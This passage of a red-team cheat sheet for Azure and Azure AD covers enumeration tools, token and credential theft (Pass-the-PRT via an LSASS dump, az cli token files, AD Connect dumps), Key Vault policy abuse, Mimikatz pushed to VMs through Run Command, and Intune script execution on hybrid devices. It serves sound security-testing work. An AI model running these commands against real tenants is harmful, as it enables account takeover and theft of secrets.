    $roleUsers = Get-MsolRoleMember -RoleObjectId $role.ObjectId

    foreach ($roleUser in $roleUsers) {
        $roleOutput = New-Object -TypeName PSObject
        $roleOutput | Add-Member -MemberType NoteProperty -Name RoleMemberType -Value $roleUser.RoleMemberType
        $roleOutput | Add-Member -MemberType NoteProperty -Name EmailAddress -Value $roleUser.EmailAddress
        $roleOutput | Add-Member -MemberType NoteProperty -Name DisplayName -Value $roleUser.DisplayName
        $roleOutput | Add-Member -MemberType NoteProperty -Name isLicensed -Value $roleUser.isLicensed
        $roleOutput | Add-Member -MemberType NoteProperty -Name RoleName -Value $role.Name

        $admins += $roleOutput
    }
} 

$admins | Export-Csv -NoTypeInformation .\365RolesUsers.csv
```

### Listing users with MFA enable
--> Azure AD administrator role required  

```
Get-MsolUser -all | select DisplayName,UserPrincipalName,@{N="MFA Status"; E={ if( $_.StrongAuthenticationMethods.IsDefault -eq $true) {($_.StrongAuthenticationMethods | Where IsDefault -eq $True).MethodType} else { "Disabled"}}} | export-csv .\mfaresults.csv
```

### Azure Function
Enumerates any **Azure Function** looking for plaintext values added as environment variables or connection strings within source code.

### Azurite
Tool developed to assist during enumeration and reconnaissance activities.  

- 2 scripts :  
	- Azurite Explorer
	- Azurite Visualizer  
	
--> https://github.com/mwrlabs/Azurite

### AzureHound (Bloodhound)
AzureHound uses the “Az” Azure PowerShell module and “Azure AD” PowerShell module for gathering data within Azure and Azure AD.  

- https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/AzureHound.ps1

```
Connect-AzAccount  
Import-Module ./AzureHound.ps1  
Invoke-AzureHound
```  

--> Import and upload ZIP file result within **BloodHound**  

Linux usage  
--> You will first need to get a refresh token in case your account use MFA. [Check Bloodhound doc](https://bloodhound.readthedocs.io/en/latest/data-collection/azurehound.html)
```
wget https://github.com/BloodHoundAD/AzureHound/releases/download/v2.0.4/azurehound-linux-amd64.zip
unzip azurehound-linux-amd64.zip
./azurehound -r REFRESHTOKEN list --tenant "domaine.com" -o output_azurehound.json
```

Then you only need to import the JSON file within BloodHound to start discovering potential attack path.  
--> Azure hound custom queries from [Hausec](https://hausec.com/2020/11/23/azurehound-cypher-cheatsheet/)

### ROADTool
ROADrecon is a tool for exploring information in Azure AD from both a Red Team and Blue Team perspective. (Python)  

--> Use version 1.61-internal of Azure AD Graph API.  

```
roadrecon auth -u jdoe@company.onmicrosoft.com -p pass123
roadrecon gather
roadrecon gui
```  

- https://github.com/dirkjanm/ROADtools
- https://github.com/dirkjanm/ROADtools/wiki/Getting-started-with-ROADrecon (WIKI)

--> Roadtools can also be used for lateral movement with differents tokens and cookies:  
- PRT cookie
- Direct access/refresh token

### Monkey365
- https://github.com/silverhack/monkey365
Azure subscriptions and Azure Active Directory security configuration reviews.  

```
Import-Module monkey365
Get-Help Invoke-Monkey365 -Examples
```

### Microsoft Azure AD Assessment
- https://github.com/AzureAD/AzureADAssessment 

### CloudSploit - AquaSecurity
- https://github.com/aquasecurity/cloudsploit

> CloudSploit by Aqua is an open-source project designed to allow detection of security risks in cloud infrastructure accounts, including: Amazon Web Services (AWS), Microsoft Azure, Google Cloud Platform (GCP), Oracle Cloud Infrastructure (OCI), and GitHub

### Scoutsuite
- https://github.com/nccgroup/ScoutSuite
- https://github.com/nccgroup/ScoutSuite/wiki/Azure

Open source multi-cloud security-auditing tool, which enables security posture assessment of cloud environments.  

```
az login 
python3 scout.py azure -c
```  

### MicroBurst 
- https://github.com/NetSPI/MicroBurst
- https://github.com/NetSPI/MicroBurst/wiki

#Authencticated enumeration
```
Get-AzureDomainInfo -folder MicroBurst -VerboseGet-MSOLDomainInfo
Get-MSOLDomainInfo
```  

### Stormspotter
- https://github.com/Azure/Stormspotter

Start backend:
```
git clone https://github.com/Azure/Stormspotter
cd Stormspotter/
docker-compose up
```

Run collector
```
cd stormcollector/
pipenv shell
az login -u jdoe@company.com -p Password123
python3 sscollector.pyz cli
```

- Log-on to the webserver at http://localhost:9091 using the default if not changed:
	- Username: neo4j
	- Password: BloodHound
- Upload the ZIP archive created by the collector

--> Use Built-in queries to visualize the data
--> Learn Cypher language and create your own queries.   
	- https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet

### CS-Suite
- https://github.com/SecurityFTW/cs-suite

--> Authenticate the azure cli az login

```
python cs.py -env azure
```  

### CIS scanner
- https://github.com/kbroughton/azure_cis_scanner

--> Authenticate the azure cli az login  

```
pip3 install azure-cis-scanner
azscan
```  

#### Key vaults


<br/>

## Exploitation

#### CloudShell exploitation
- https://www.netspi.com/blog/technical/cloud-penetration-testing/attacking-azure-cloud-shell/

**Information disclosure**  
--> By default, all subscription Contributor accounts will have read/write access to all subscription Storage Accounts, unless otherwise restricted.  

- Accessing CloudShell storage of other users
- Permissions Required : Contributor on subscription

**Cross-Account Command Execution**  
- Backdooring CloudShell storage for command execution
- Download cloud shell .IMG file of the targeted user
- Backdoor following files for command execution or privilege escalation:
  - .bashrc
  - /home/alice/.config/PowerShell/Microsoft.PowerShell_profile.ps1

#### Cosmos DB : Cosmiss vulnerability 
--> October 6 - 2022 :  Microsoft fixed and patched the vulnerability – Now requiring an Authorization token in the request Header for each notebook session.  

- https://orca.security/resources/blog/cosmiss-vulnerability-azure-cosmos-db/

#### Automation accounts 1
Azure's automation service that allows to automate tasks for Azure resources, on-prem infra and also other cloud providers.  

--> Support process automation :  
- RunBooks
- Configuration Management
- Update Management
- Shared resources

If a user has **Contributor** role over an automation account, it is possible to create and execute RunBooks.  

```
Import-AzAutomationRunbook -Name student129 -Path C:\AzAD\Tools\student129.ps1 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Type PowerShell -Force -Verbose
```

```
 Publish-AzAutomationRunbook -RunbookName student129  -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Verbose
 ```
 
 ```
 Start-AzAutomationRunbook -RunbookName student129 -RunOn Workergroup1 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Verbose
 ```

#### Automation accounts 2
Azure Automation accounts support automation of various tasks in Azure Resource Manager. Using Automation Accounts Runbooks, you can execute scripts to manage tenant resources across all regions and subscriptions in the tenant.

**Recon**  
Require the following permission :  
- *Microsoft.Automation/automationAccounts/read*

```
az automation account list -g <resource group>

```

**Compromise**  
--> Attacker will attempt to create and run a new runbook under this account.  

Require the following permission :  
- *Microsoft.Automation/automationAccounts/runbooks/write*
- *Microsoft.Automation/automationAccounts/jobs/write*
```
PUT https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.Automation/automationAccounts/{automationAccountName}/runbooks/{runbookName}?api-version=2015-10-31{
   "properties": {
      "logVerbose": false,
      "logProgress": true,
      "runbookType": "PowerShellWorkflow",
      "publishContentLink": {
         "uri": "runbook content URI",
         "contentHash": {
            "algorithm": "SHA256",
            "value": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
         }
      },
      "description": "Description of the Runbook",
      "logActivityTrace": 1
   },
   "name": "RunBookName",
   "location": "East US 2"
}

```

**Note**: There are also CLI commands to create runbooks, but currently those commands require different permissions.  

**Create Job for RunBook**  
After creating the runbook, the attacker must create a job from the runbook.  

```
PUT https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.Automation/automationAccounts/{automationAccountName}/jobs/{jobName}?api-version=2017-05-15-preview{
   "properties": {
      "runbook": {
         "name": "TestRunbook"
      },
      "parameters": {
         "key01": "value01",
         "key02": "value02"
      },
      "runOn": ""
   }
}
```

#### Azure Key Vault
--> Modifying Key Vault policy.  

Require the following permission:  
- *Microsoft.KeyVault/vaults/accessPolicies/write*

This permission allows the attacker to create a new policy for the desired key vault using the following Rest API:  
```
PUT https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.KeyVault/vaults/{vaultName}/accessPolicies/{operationKind}?api-version=2019-09-01{   
   "properties": {     
      "accessPolicies": [       
      {         
         "tenantId": "00000000-0000-0000-0000-000000000000",                  
         "objectId": "00000000-0000-0000-0000-000000000000",          
         "permissions": {           
            "keys": [             
               "encrypt"           
            ],           
            "secrets": [             
               "get"           
            ]         
         }       
      }]
   }   
}

```

#### Deployment templates 


#### Deployment templates ARM

#### Administrative Unit

#### Dynamic Group Membership

<br/>

## Lateral movement

#### Lateral movement Graph for AzureAD
[AzureADLateralMovement](https://github.com/talmaor/AzureADLateralMovement) data collector. The tool is useful for blue teams, with some admin permissions to collect Azure AD Graph data (i.e logons events).  

- https://medium.com/@talthemaor/lateral-movement-graph-for-azure-ad-7c5e0136e2d8

#### PowerZure
- https://github.com/hausec/PowerZure
- https://powerzure.readthedocs.io/en/latest/  

PowerZure is a PowerShell project that use AZ PowerShell module created to assess and exploit resources within Microsoft’s cloud platform.  

```
PS C:\> Connect-AzAccount
PS C:\> Import-Module .\Powerzure.psd1
PS C:\> Get-AzureTargets
```

#### Scavenging Runbooks for creds
- Runbooks : Permit to automate various tasks in your Azure cloud environment. 
--> Runbooks require an Automation account  
--> Runbooks can contain sensitive information  

```
PS C:\ > Get-AzAutomationAccount  
PS C:\ > Get-AzAutomationRunbook -AutomationAccountName  -ResourceGroupName  
PS C:\ > Export-AzAutomationRunbook -AutomationAccountName  -ResourceGroupName  -Name  -OutputFolder .\
```

#### Azure password reset


#### Steal Access Tokens
Typical configuration files for .Net/Azure:  

##### Azure Cloud Service Packages (.cspkg)
- Deployment files created by Visual Studio.  
--> Look through CSPKF zip files for creds/certs  
--> Search Visual Studio Publish directory   

The default publish folder format is : 
```bin\Debug\{TARGET FRAMEWORK MONIKER}\publish\```
```bin\Debug\netcoreapp2.2\publish\```

##### Azure publish settings files (.publishsettings)
- Designed to help developers push code to Azure
- Can contain a base64 encoded Management Certificate
- Sometimes cleartext credentials  

--> Open publishsettings file in text editor  
--> Save *ManagementCertificate* section into new **.pfx** file  
--> No password for the **.pfx** file  

**Locations**: User's downloads, VS projects directories.  

##### Web Config / App Config
- Include cleartext credentials
- WebApps often new read/write access to cloud storage or DBs
- Web.config & app.config might contain creds or access tokens  
--> Look for management cert and extract to pfx  
--> Often found in root folder of webapp  

##### PowerShell authenticated session
During authenticated session with the Az Powershell module a **TokenCache.dat** file gets generated.  (https://github.com/Azure/azure-powershell/issues/9649)

AZ cli stores access tokens in clear text in accessTokens.json.  

- Check for **%USERPROFILE\\.Azure\\** for auth tokens  
	+ *accessTokens.json*
- Check disk for other saved context files (.JSON)  

--> You can also try to save the current access token.  
```
PS C:\ > Save-AzContext -Path "C:\Users\jdoe\Documents\token.json"  
```

--> If admin privileges you can also process dump PowerShell for tokens.  

**Using Tokens with APIs - Management**  
- Azure Resource Manager - management.azure.com
- Microsoft Graph - graph.microsoft.com (Azure AD Graph which is
deprecated is graph.windows.net)


```
$Token = 'eyJ0eXAi..'
$URI = 'https://graph.microsoft.com/v1.0/users'
$RequestParams = @{
	Method = 'GET'
	Uri
	= $URI
	Headers = @{
		'Authorization' = "Bearer $Token"
	}
}
(Invoke-RestMethod @RequestParams).value
```

#### Azure AD User Attributes
- Credentials within description or comment field

One-liner to search all Azure AD user attributes for passwords :   

```
$users = Get-MsolUser -All; foreach($user in $users){$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "*password*"){Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)}}} 
```

#### Azure VM Extension settings
If you’re a local admin on an Azure VM, run the  script from MicroBurst to decrypt VM extension settings and potentially view sensitive parameters, storage account keys and local Administrator username and password.  

- https://www.netspi.com/blog/technical/cloud-penetration-testing/decrypting-azure-vm-extension-settings-with-get-azurevmextensionsettings/

#### Custom Script Extension
The Custom Script Extension is particularly interesting as it downloads a script from a user-specified location (e.g. URL, blob storage, etc.) and then executes the script on a running Azure Windows or Linux VM.  


**Privilege required** : *Virtual Machine Contributor*

- https://www.netspi.com/blog/technical/cloud-penetration-testing/attacking-azure-with-custom-script-extensions/

#### Hunting admins
```
PS C:\ > Get-MsolRoleMember -RoleObjectId 35j7643-444dl-242pq3-02143435 | fl  
```

--> Return Global administrator = Company administrator  
--> If attribute **LastDirSyncTime** is empty = Account only exist in AzureAD not exist on AD on-prem.

#### Run Command feature
The Run Command feature connects to the Virtual Machine Agent to run commands and scripts.  

The scripts can be provided through :  
- Azure Portal
- REST API
- Azure CLI
- PowerShell. 
```
PS C:\> Invoke-AzureRmVMRunCommand 	
```

--> Using **Run Command** commands can be executed even when the VM is otherwise unreachable (e.g. if the RDP or SSH ports are closed).  
--> **Run Command** execute commands in elevated privileges.  

**Privilege required** : *Microsoft.Compute/virtualMachines/runCommand/action*  
--> Virtual machine contributor  

It is also possible to use MicroBurst with **Invoke-AzureRmVMBulkCMD** module to run command on all the virtual machine in whole subscription:  
```
PS C:\ > Import-module MicroBurst.psm1  
PS C:\ > Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

#### Managed Identities - Azure VM
Managed Identities can be used to access Azure Key Vaults and storage accounts.  

--> Accessing these resources can only be achieved if the correct RBAC or directory role has ben assigned. If the managed identites doesn't have any role assignements, it is not going to work  

- https://m365internals.com/2021/11/30/lateral-movement-with-managed-identities-of-azure-virtual-machines/
- https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-privilege-escalation-using-managed-identities/


##### Accessing Key Vault
- In case the Managed Identity of a compromised Linux/Windows VM has Owner rights for exemple we can try to access Key Vaults and secrets within the same resource group.

1. We can use this managed identity from the compromised VM
```
az login --identity
```

2. List Key Vault
```
az keyvault list
```

3. List secret from Azure KeyVault
```
az keyvault secret list --vault-name mysecretkeyvault01  
```

--> This will not be possible as the Managed Identity has only Owner write over the resource group where the Key Vault is stored. But as Owner role, the Managed Identity has enough permission to modify access policy of the Azure Key Vault and grant **list** permission for secrets.  

4. Setting List permission over the Key Vault
```
az keyvault set-policy -n mysecretkeyvault01 --secret-permissions get list --object-id ae46b8fd-6070-49c1-be69-300c771a97f0
```

5. Obtaining secrets from Key Vault with correct **List** permission
```
az keyvault secret show --id https://mysecretkeyvault01.vault.azure.net/secrets/1753b4a6-9372-4c40-b395-74578b1dc3b01
```

##### Accessing Storage Account
- In case the Managed Identity of a compromised Linux/Windows VM has Owner rights on the Resource Group. We can try to Storage Account and Storage Account Keys within the same resource group.  

1. We can use this managed identity from the compromised VM
```
az login --identity
```

2. List storage account
```
az storage account list
```

3. Retrieve all the access keys
```
az storage account keys list -g Demo -n newstorageaccount003
```

4. Use Azure Storage Explorer with Access Key to connect to Storage Account
- https://azure.microsoft.com/en-us/features/storage-explorer/#overview

##### Azure Storage can be accessed through :
- Storage account key
- User credentials
- Shared Access Signature (SAS) token

**Storage Account Key** : Most desired method of attack because they grant full access to the entire storage account.  

--> Storage account have only 2 keys: Primary and Secondary.  
--> All Storage account users share these keys.  
--> 64-byte values in base64 encoding.  
--> These keys don’t expire on their own, but they can be rolled.  

**User credentials** : Role based permissions  

--> Permissions could liimit user account to certain actions.  
--> 2FA could be enable.  

**SAS Tokens** : Keys that grant only certain rights to a subset of objects in a storage account.  

--> Azure SAS tokens are formatted as URLs.  
--> URL point to Azure Storage and contain a long string of parameters.  
--> Unique SHA256-hashed, base64-encoded key.  
--> SAS Tokens have assigned permissions (SP parameter) such as read-
only.  
--> Can be designated to work only from specific IP (SIP parameter).  
--> SAS tokens might also have designated start and end times (via the ST and
SE parameters).  

##### Retrieving storage credentials
- Finding keys in source code
- Obtaining key form a developer's storage utilities
- Getting keys from Microsoft Azure Storage Explorer
	+ breakpoint on JS file *AzureStorageUtilities.js*, function *loadStorageAccounts(host, key)*
- Getting keys from Redgate's Azure Explorer
- Getting Keys from ClumsyLeaf’s CloudXplorer
- Getting Keys from ClumsyLeaf’s TableXplorer

##### Moving laterally to Linux/Windows Machine
- In case the Managed Identity of a compromised Linux/Windows VM has Owner rights for exemple on the Resource Group. We can try to move laterally and compromised other Vitual Machines within the same resource group.  

--> Using Azure Virtual Machines **Run Command** feature.  

1. List VM within the Resource Group  
```
az vm list -g Demo --output table
```

2. Listing user on Linux VM
```
az vm run-command invoke -g Demo -n LinuxVM02 --command-id RunShellScript --scripts "getent passwd | awk -F: '{ print $1}'"
```

3. Change user password
```
az vm user update -u testaccount -p WeakPassw0rd! -n LinuxVM02 -g Demo
```

#### Cloud Application Administrator Role
- Users in this role can create and manage all aspects of applications
- Application Administrators can manage application credentials that allows them to impersonate the application.

List all Azure applications:  
```
az ad app list --all
```

- Tool appJack.py

- https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/

#### Pass-the-PRT
- https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token  s
**Primary Refresh Token** (PRT) is a special high privileged refresh token where you can request **access tokens** for any registered application in Azure and Microsoft 365 to authenticate against it. Compared to Active Directory in on-premises networks, it is the equivalence to the Ticket Granting Ticket (TGT).

- JSON Web Token (JWT)
- Storage
	- Cached by Cloud AP in LSASS
	- Session key protected by TPM (if present)
- Validity
	- Valid for 14 days
	- Renewed every 4 hours
- Invalidation
	- Invalid user (deleted/disabled)
	- Invalid device
	- Password change


##### Attack
1. Pass-The-PRT
	- Steal the PRT from LSASS on victim's computer
	- Generate a PRT cookie on attacker's computer
	- Use the cookie to fetch an access token from Azure AD

2. Pass-The-Cookie
	- Steal a newly generated PRT cookie from victim's computer
	- Use the cookie to fetch an access token from Azure AD

1. Verify victim machine is AD Azure joined and verify if the session key is protected by TPM chip, dump LSASS process: 
```
dsregcmd.exe /status  
LSASS dump (sekurlsa::minidump lsass.dmp -> sekurlsa::cloudap)
```

2. Generate nonce using ROADTools
```
roadrecon auth --prt-init
```

3. Generate an Azure AD PRT cookie using ROADToken
```
.\ROADToken.exe 
```

4. Paste the PRT cookie to generate a graph API access token
```roadrecon auth --prt-cookie **COOKIE_FROM_ROAD_TOKEN**  
cat .roadtools_auth | python3 -m json.tool
```

5. Use the token to connect on AzureAD (AccountId = OID of user)
```
Connect-AzureAD -TenantId 134jjkhjk-4324h4-1231jff-3453jkjij -AccountId 123 -AadAccessToken string123
```

--> It is also possible to directly insert the x-ms-RefreshTokenCredential within browser cookie. (https://login.microsoftonline.com with HTTPOnly)  
--> TPM can be bypass  
- https://www.youtube.com/watch?v=9WDe7IiSrWE
- https://derkvanderwoude.medium.com/pass-the-prt-attack-and-detection-by-microsoft-defender-for-afd7dbe83c94
- https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/
- https://dirkjanm.io/digging-further-into-the-primary-refresh-token/

#### Pass-the-Certificate
- https://medium.com/@mor2464/azure-ad-pass-the-certificate-d0c5de624597


#### Across Tenant
#### Cloud to on prem
- https://whiteknightlabs.com/2024/02/21/pivoting-from-microsoft-cloud-to-on-premise-machines/

#### AAD GUI to On-Prem SUID
The user's AAD id is translated to SID by concatenating "S-1–12–1-" to the decimal representation of each section of the AAD Id.  

- GUID: [base16(a1)]-[base16(a2)]-[ base16(a3)]-[base16(a4)]
- SID: S-1–12–1-[base10(a1)]-[ base10(a2)]-[ base10(a3)]-[ base10(a4)]

For example, the representation of *6aa89ecb-1f8f-4d92–810d-b0dce30b6c82*   
is *S-1–12–1–1789435595–1301421967–3702525313–2188119011*

##### Convert ObjectID to SID
```
function Convert-AzureAdObjectIdToSid {
<#
.SYNOPSIS
Convert an Azure AD Object ID to SID
 
.DESCRIPTION
Converts an Azure AD Object ID to a SID.
Author: Oliver Kieselbach (oliverkieselbach.com)
The script is provided "AS IS" with no warranties.
 
.PARAMETER ObjectID
The Object ID to convert
#>

    param([String] $ObjectId)

    $bytes = [Guid]::Parse($ObjectId).ToByteArray()
    $array = New-Object 'UInt32[]' 4

    [Buffer]::BlockCopy($bytes, 0, $array, 0, 16)
    $sid = "S-1-12-1-$array".Replace(' ', '-')

    return $sid
}

$objectId = "73d664e4-0886-4a73-b745-c694da45ddb4"
$sid = Convert-AzureAdObjectIdToSid -ObjectId $objectId
Write-Output $sid

# Output:

# S-1-12-1-1943430372-1249052806-2496021943-3034400218
```

##### Convert SID to ObjectID
```
function Convert-AzureAdSidToObjectId {
<#
.SYNOPSIS
Convert a Azure AD SID to Object ID
 
.DESCRIPTION
Converts an Azure AD SID to Object ID.
Author: Oliver Kieselbach (oliverkieselbach.com)
The script is provided "AS IS" with no warranties.
 
.PARAMETER ObjectID
The SID to convert
#>

    param([String] $Sid)

    $text = $sid.Replace('S-1-12-1-', '')
    $array = [UInt32[]]$text.Split('-')

    $bytes = New-Object 'Byte[]' 16
    [Buffer]::BlockCopy($array, 0, $bytes, 0, 16)
    [Guid]$guid = $bytes

    return $guid
}


$sid = "S-1-12-1-1943430372-1249052806-2496021943-3034400218"
$objectId = Convert-AzureAdSidToObjectId -Sid $sid
Write-Output $objectId

# Output:

# Guid
# ----
# 73d664e4-0886-4a73-b745-c694da45ddb4
```

##### Microsoft Endpoint Manager
- https://posts.specterops.io/death-from-above-lateral-movement-from-azure-to-on-prem-ad-d18cb3959d4d

This abuse becomes possible when Windows devices have been **Hybrid-Joined** to both the Azure tenant and the on-prem Active Directory domain.  

--> If an organization is using Hybrid Azure AD join to manage on-prem Windows systems, then an attacker with control of a “Global Admin” or “Intune Administrator” principal can execute arbitrary PowerShell scripts on those on-prem devices as the SYSTEM user.  

1. Enumerating hybrid join devices
- Via Azure portal and filter within AzureAD devices tab
- PowerShell AzureAD module
```
PS C:> Get-AzureADDevice -All $True | ?{$_.DeviceTrustType -eq "ServerAd" -And $_.IsCompliant -eq "True"} | Select DisplayName,DeviceOSType,DeviceTrustType,IsManaged,IsCompliant | FT
```

2. Go to Devices -> All Devices to check devices enrolled to Intune.
3. Go to Scripts and click on Add for Windows 10.
4. Add a Powershell script
5. Specify Add all users and Add all devices in the Assignments page.

--> Will take up to one hour before you script is executed.  


#### On-Prem (domaine A) to CLOUD to On-Prem (domaine B)
On-prem systems from different Active Directory domains can be hybrid-joined to the same tenant, which in certain circumstances have resulted in attack paths originating in one on-prem domain (or one of the many other identity platforms that can authenticate to Azure) and landing in another on-prem domain, where absolutely no domain or forest trusts exist.  


#### On prem to cloud

- If an organization uses **Password Hash Synchronization**, Azure AD connect has the privileges to perform a **DCSync**, which allows it to sync all attributes (including password hashes) from domain controllers.

**ADConnect inner workings**  


**ADConnect storage mechanism**  


- https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/  

- https://github.com/fox-it/adconnectdump

AdConnectDump toolkit offers several ways to extract and decrypt stored Azure AD and Active Directory credentials from Azure AD Connect servers. These credentials have high privileges in both the on-premise directory and the cloud.    

**3 methods of dumping AD Connect Credentials : **

| Tool   | Requires code exec on target   |  DLL dependencies  | Requires MSSQL loccaly  | Requires python locally   |
|    :---:    |    :---:    |    :---:    |    :---:    |    :---:    |
| ADSyncDecrypt      | Yes      | Yes      | No      | No      |
| ADSyncGather   | Yes      | No      | No      | Yes      |
| ADSyncQuery      | No      | No      | Yes      | Yes      |

**Main objectives :**  
- Compromise the AD & Azure credentials configured within the AD Connect Service
- Leverage the local creds to perform DC sync attack
- Leverage Azure creds to access Tenant

1. Finding the server where Azure AD Connect is installed.  
--> Microsoft made the task easy for us, by including the synchronization server name and the corresponding Azure AD tenant to the LDAP description of the MSOL user.  
```
$ ldapsearch -H ldap://DC01.COMPANY.COM:389 -D "COMPANY\user" -w "****" -b "DC=COMPANY,DC=COM" '(description=*Azure*)' description
```

2. We will need **Local Admin** account or **ADsync** service account to interact with the Azure AD Connect DB.  
--> This DB stores an encrypted version of the MSOL account password which be decrypted with *C:\Program Files\Microsoft Azure AD Sync\Binn\mcrypt.dll* and **NT SERVICE\ADSync** DPAPI key. (https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)  

#### Stealing Tokens on computer/server
--> The lifetime of a Primary Refresh Token is 14 days!

- Get-AzurePasswords (Microburst)
```
Import-Module Microburst.psm1
Get-AzurePasswords
Get-AzurePasswords -Verbose | Out-GridView
```

- https://github.com/NetSPI/MicroBurst/blob/master/AzureRM/Get-AzurePasswords.ps1
- https://www.netspi.com/blog/technical/cloud-penetration-testing/a-beginners-guide-to-gathering-azure-passwords/

##### Stealing tokens from az cli
- az cli stores access tokens in clear text in accessTokens.json in the directory C:\Users\<username>\.Azure
- azureProfile.json in the same directory contains information about subscriptions.

##### Stealing tokens from az powershell
- Az PowerShell stores access tokens in clear text in TokenCache.dat in the directory C:\Users\<username>\.Azure
- It also stores ServicePrincipalSecret in clear-text in AzureRmContext.json
- Users can save tokens using Save-AzContext

## Privilege escalation

#### Difference between Azure AD Directory and API permissions



- https://www.youtube.com/watch?v=qO9dVCVmVGo

#### RBAC roles

#### Azure AD directory roles

#### MS Graph API Permissions abuse
- https://www.youtube.com/watch?v=qO9dVCVmVGo
- https://www.youtube.com/watch?v=a09_5SCPBZ0
- https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/
- https://dirkjanm.io/assets/raw/US-22-Mollema-Backdooring-and-hijacking-Azure-AD-accounts_final.pdf
- https://www.youtube.com/watch?v=uKDS2t9_KsA
- https://m365internals.com/2021/07/24/everything-about-service-principals-applications-and-api-permissions/
- https://posts.specterops.io/azure-privilege-escalation-via-azure-api-permissions-abuse-74aee1006f48
- https://github.com/Hagrid29/AbuseAzureAPIPermission
- https://www.powershellgallery.com/packages/AzureADIncidentResponse/4.2
- https://posts.specterops.io/directory-readwrite-all-is-not-as-powerful-as-you-might-think-c5b09a8f78a8
- https://www.youtube.com/watch?v=IUcubSMkjNE

- **Application.ReadWrite.All** — Enables adding credentials and owners to all existing apps and service principals
- **Group.ReadWrite.All** — Enables adding owners and members to all non-role-assignable groups
- **GroupMember.ReadWrite.All** — Enables adding members to all non-role-assignable groups
- **ServicePrincipalEndpoint.ReadWrite.All** — Enables adding credentials to all existing service principals
- **RoleManagement.ReadWrite.Directory** - Permits a service principal with that app role to promote itself or any other principal to any Entra ID role, including GLOBAL ADMINISTRATOR.
- **AppRoleAssignment.ReadWrite.All** - Permits a service principal with that app role to grant itself or any other service principal any MS Graph app role, including RoleManagement.ReadWrite.Directory, with the added bonus of uniquely having the ability to bypass the admin consent process.


#### Elevate access Global Admin 
- https://docs.microsoft.com/en-us/azure/role-based-access-control/elevate-access-global-admin


--> When you set the toggle to **Yes**, you are assigned the **User Access Administrator** role in Azure RBAC at **root scope** (/).  
--> As attacker you can set **Owner** role over the root management group to get full access over all the Azure subscriptions, management groups, resource groups and resources under the root management group.  

--> Azure AD and Azure resources are secured independently from one another. That is Azure AD role assignments do not grant access to Azure resources automatically.  

--> For many organisation the group that manages Azure AD and Office365 are different group from those that manage Azure.  


- If this option is toggled to “Yes” that the account is removed from the Global Administrator role, the Azure RBAC role remains and is not removed.
- It could permit persistence over the root management group without global admin role on the Tenant.

--> User Access Administrator provides the ability to modify any group membership in Azure.  

--> The attacker can now set any Azure AD account to have privileged rights to Azure subscriptions and/or Azure VMs.  

- https://www.youtube.com/watch?v=AR5aLszXA2E 

#### Service Principal abuse - Privilege escalation
- https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

#### Accross subscriptions
#### Service Principal Hijacking
Anytime you create a Microsoft 365 by default, that account will spin up 200 default service principals within the O365 tenant.

--> None of them are listed in the Azure GUI portal under the user section, you have to go in *Search Principals* to see them.  

**Ex**: You compromise an account for somebody which have an "Application Administrator" role. This role allow users to change passwords or certificates for service principals, even the default ones.  

--> Identify an account which have an higher level of privilege than your "Application Administrator"  

- https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
- https://github.com/rootsecdev/Azure-Red-Team/tree/master/PrivEsc

```
# Install the AzureAD PowerShell module
Install-Module AzureAD
# Authenticate to the tenant
$username = "username@domain.com"
$password = 'YourVeryStrongPassword'
$SecurePassword = ConvertTo-SecureString “$password” -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential($username, $SecurePassword)
Connect-AzureAD -Credential $Credential
# Build our users and roles object
$UserRoles = Get-AzureADDirectoryRole | ForEach-Object {
        
    $Role = $_
    $RoleDisplayName = $_.DisplayName
        
    $RoleMembers = Get-AzureADDirectoryRoleMember -ObjectID $Role.ObjectID
        
    ForEach ($Member in $RoleMembers) {
    $RoleMembership = [PSCustomObject]@{
            MemberName      = $Member.DisplayName
            MemberID        = $Member.ObjectID
            MemberOnPremID  = $Member.OnPremisesSecurityIdentifier
            MemberUPN       = $Member.UserPrincipalName
            MemberType      = $Member.ObjectType
            RoleID          = $Role.RoleTemplateId
            RoleDisplayName = $RoleDisplayName
     }
        
        $RoleMembership
        
    }    
}
$UserRoles | ?{$_.MemberType -eq "ServicePrincipal"}
```

#### Azure Key Vaults
- Vaults for storing passwords and other secrets such as:  
	+ Cryptographic Keys - RSA, EC etc
	+ Secrets - Passwords, connection strings
	+ Certificates - Life cycle management (SSL/TLS certs)
	+ Storage account keys - Key vault can manage and rotate access keys for
storage accounts  

--> With right permissions and access, Azure resources that support managed
identities (VMs, App Service, Functions, Container etc.) can securely retrieve
secrets from the key vault.  

--> By default only the **owner** of the key vault can access the key  

--> **Contributors** over key vault resources have the ability to modify certain permissions on keyvault. **Contributors** can modify their own permission to give them the read permission to read data within key vault.  

--> Role like **Contributor** that has permissions in the management place to manage access policies.  

##### Privilege Escalation scenario
Compromission of an azure resource whose **managed identity** can read secrets from a key vault (due to an access policy or assigned one of the capable roles or a custom role), it may be possible to gain access to more resources.  

| Built-in Role | Description | Can access secrets? |
| ------ | ------ | ------ |
| Key Vault Contributor | Can manage key vaults | No | 
| Key Vault Administrator | Perform all data plane operations. Cannot manage role assignment | Yes | 
| Key Vault Certificates Officer | Perform any action on certificates. Cannot manage permissions | Yes (Certificates) | 
